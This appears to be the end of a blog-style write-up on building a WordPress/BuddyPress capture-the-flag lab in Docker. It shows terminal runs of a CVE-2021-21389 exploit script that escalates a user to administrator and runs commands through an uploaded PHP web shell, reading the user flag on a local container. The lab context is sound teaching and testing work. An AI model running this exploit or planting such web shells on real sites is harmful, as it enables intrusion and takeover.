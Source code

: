 <br><br>
And there it was... vulnerable now...<br>

```
@ubuntu:~/Docker/ctf/ctfWPbuddypress/CVE-2021-21389$ python3 CVE-2021-21389.py http://172.17.0.3 test2 1234 whoami
[+] Try to register ...
[-] That username already exists!
[+] Try to login this username ....
[+] Login successfully!
[+] Try to login ...
[+] Login successfully!
[+] Creating new group to get X-WP-Nonce
[+] Privilege Escalation to Administrator!
[+] Checking RCE ...
[+] RCE via whoami command:
www-data

[+] Link RCE: 
http://172.17.0.3/wp-content/uploads/2021/12/cve202121389.php?cmd=whoami
[+] Done!
```

<br><br>
And finally, if the attacker didn't feel like uploading a shell via the new admin account...<br>
They could simply take a look at the /etc/passwd file and see the user...<br>
And cat the user flag:<br>

```
@ubuntu:~/Docker/ctf/ctfWPbuddypress/CVE-2021-21389$ python3 CVE-2021-21389.py http://172.17.0.3 test2 1234 'cat /home/tpzuser/user.txt'
[+] Try to register ...
[-] That username already exists!
[+] Try to login this username ....
[+] Login successfully!
[+] Try to login ...
[+] Login successfully!
[+] Creating new group to get X-WP-Nonce
[+] Privilege Escalation to Administrator!
[+] Checking RCE ...
[+] RCE via cat /home/tpzuser/user.txt command:
tpz{flag}

[+] Link RCE: 
http://172.17.0.3/wp-content/uploads/2021/12/cve202121389.php?cmd=cat /home/tpzuser/user.txt
[+] Done!
```
<br><br>

<hr>

## CHALLENGE CREATED
### It'll be ready to deply after I've changed the easy passwords.
I hope you've enjoyed this as much as me!  I'll probably create some docker-compose files to automate this,<br>
but it's awesome to see the raw learning experience from start to finish.<br>
If you're up for it, go create some dockers and challenges! Have fun with this... it's awesome!<br>

<hr>
